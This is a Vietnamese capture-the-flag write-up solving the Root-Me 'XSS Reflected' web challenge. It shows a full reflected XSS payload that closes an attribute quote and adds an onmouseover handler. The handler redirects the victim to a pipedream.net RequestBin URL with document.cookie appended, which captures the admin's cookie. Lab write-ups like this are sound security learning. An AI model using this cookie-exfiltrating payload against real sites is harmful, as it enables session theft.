







# WRITE UP

## **Challenge: [XSS Reflected](https://www.root-me.org/en/Challenges/Web-Client/XSS-Reflected)**

Kiểm tra source website ta thấy web bị comment 1 thẻ &lt;a&gt; dẫn đến ?p=security:

Request đến ?p=security, website hiển thị trang web lỗi và có một hyperlink thẻ &lt;a&gt; hiển thị nội dung ‘security’:

Thử nhập ?p=&lt;giá trị khác&gt;, page sẽ báo lỗi và hiển thị nội dung &lt;giá trị khác&gt; trong thẻ &lt;a&gt;. Như vậy, lợi dụng thẻ &lt;a&gt; này, ta thực hiện đóng quote cũng như chèn thêm event để thực hiện XSS:

Đến đây, sau khi thử get trực tiếp document.cookie nhưng không có giá trị, ta thực hiện gửi HTTP Request và qua RequestBin chờ cookie.

Payload: <http://challenge01.root-me.org/web-client/ch26/?p=nh4ttruong%27%20onmouseover=%27document.location=%22https://eol9dtzbk9673pb.m.pipedream.net?%22.concat(document.cookie)>

Thực hiện request với payload, sau đó ta trigger event ‘onmouseover’ và di chuyển chuột qua thẻ &lt;a&gt; để chuyển hướng website:

Sau đó, ta thực hiện lại một lần nữa nhưng sẽ thực hiện thêm bước Report đến admin đển POST request:

Qua RequestBin và nhận flag:

\- Flag: \*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*
